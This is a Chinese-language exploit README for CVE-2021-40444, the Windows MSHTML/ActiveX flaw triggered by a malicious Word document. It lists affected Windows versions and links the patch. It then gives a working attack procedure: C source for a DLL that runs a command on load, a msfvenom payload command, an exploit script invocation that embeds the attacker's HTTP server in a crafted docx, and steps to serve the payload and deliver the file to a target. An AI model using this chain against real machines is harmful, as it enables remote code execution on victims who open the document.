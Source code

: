 ### CVE-2021-40444

#### 描述

这个漏洞是IE浏览器的漏洞，但是offer相关组件默认使用的是IE浏览器，所以在offer相关组件禁用了ActiveX也一样可以执行

#### 影响版本

| Product             | CPU Architecture | Version | Update | Tested   |
| ------------------- | ---------------- | ------- | ------ | -------- |
| Windows 10          | x86/x64          |         |        |          |
| Windows 10          | x86/x64          | 1607    |        |          |
| Windows 10          | x86/x64/AMD64    | 1809    |        |          |
| Windows 10          | x86/x64/AMD64    | 1909    |        |          |
| Windows 10          | x86/x64/AMD64    | 2004    |        | &#10004; |
| Windows 10          | x86/x64/AMD64    | 20H2    |        |          |
| Windows 10          | x86/x64/AMD64    | 21H1    |        |          |
| Windows 7           | x86/x64          |         | SP1    |          |
| Windows 8.1         | x86/x64          |         |        |          |
| Windows Rt 8.1      |                  |         |        |          |
| Windows Server 2008 | x86/x64          |         | SP2    |          |
| Windows Server 2008 | x64              | R2      | SP1    |          |
| Windows Server 2012 |                  |         |        |          |
| Windows Server 2012 |                  | R2      |        |          |
| Windows Server 2016 |                  |         |        |          |
| Windows Server 2019 |                  |         |        |          |
| Windows Server 2022 |                  |         |        |          |
| Windows Server      |                  | 2004    |        |          |
| Windows Server      |                  | 20H2    |        |          |



#### 修复补丁

```
https://portal.msrc.microsoft.com/en-US/security-guidance/advisory/CVE-2021-40444
```

#### 利用原理

根据之前在野利用样本`938545f7bbe40738908a95da8cdeabb2a11ce2ca36b0f6a74deda9378d380a52`

可以知道，其实就是利用默认浏览器（IE）加载ActiveX

![image-20210911112944428](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_1.png)

本质上恶意利用只需要修改样本中的`document.xml.rels`文件中框起来mhtml和x-usc这两段内容该为恶意目标网页，即可达到利用

#### 利用方式

首先需要生成一个恶意的DLL文件，通过msf或者自己编译都行

- 自己编译

  ```c
  //calc.c
  #include <windows.h>
  
  void exec(void) {
  	system("cmd /c calc");
  	return;
  }
  
  BOOL WINAPI DllMain(
      HINSTANCE hinstDLL,
      DWORD fdwReason, 
      LPVOID lpReserved )
  {
      switch( fdwReason ) 
      { 
          case DLL_PROCESS_ATTACH:
             exec(); 
             break;
  
          case DLL_THREAD_ATTACH:
              break;
  
          case DLL_THREAD_DETACH:
              break;
  
          case DLL_PROCESS_DETACH:
              break;
      }
      return TRUE;
  }
  ```

  然后运行命令

  ```
  i686-w64-mingw32-gcc -shared calc.c -o calc.dll
  ```

- 通过msf编译

  ```
  msfvenom -p windows/exec CMD=calc.exe EXITFUNC=thread -f dll>>calc.dll
  ```

> 最好使用MSF生成DLL文件！
>
> 还有请看准对应机器，有些Windows 10 版本不存在该问题

安装环境所需要的依赖`sudo apt-get install lcab`，生成 cab用的

接着使用一键化脚本，`test/calc.dll`这个为你生成的哪个dll所在的绝对路径，`http://you_ip`你启动exp这台机器的IP

```
cd CVE-2021-40444 ; python3 exploit.py generate test/calc.dll http://you_ip
```

![image-20210911115757383](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_2.png)

然后启动http服务

```
cd srv ; python3 -m http.server 80
```

接着把生成的恶意docx文件（在`out/`文件夹中），放到目标机器上（Windows 10 2004 x64），即可执行成功

![1](https://raw.github.com/Ascotbe/Random-img/master/Kernelhub/CVE-2021-40444_Windows_10_2004_X64_3.gif)

#### 参考项目

- [prcabral](https://github.com/prcabral/CVE-2021-40444)